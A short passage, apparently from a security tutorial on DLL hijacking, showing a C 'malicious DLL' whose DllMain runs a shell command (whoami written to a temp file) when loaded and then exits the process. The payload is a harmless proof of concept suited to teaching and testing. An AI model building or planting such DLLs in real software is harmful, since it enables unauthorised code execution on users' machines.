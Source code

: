 ### Creating the Malicious DLL file
An example of a potential DLL file is below:
```C
#include <windows.h>

BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
    if (dwReason == DLL_PROCESS_ATTACH) {
        system("cmd.exe /k whoami > C:\\Temp\\dll.txt");
        ExitProcess(0);
    }
    return TRUE;
}
```